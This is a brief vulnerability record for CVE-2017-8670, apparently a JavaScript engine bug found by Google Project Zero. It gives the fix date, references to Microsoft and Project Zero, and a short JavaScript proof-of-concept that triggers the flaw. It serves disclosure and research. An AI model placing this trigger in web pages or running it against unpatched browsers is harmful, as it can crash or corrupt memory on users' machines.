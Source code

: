 # CVE-2017-8670

- Fix: Aug 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function f() {
    ({a = ([arguments]) => {
    }} = 1);

    arguments.x;
}

f();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8670)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1298)
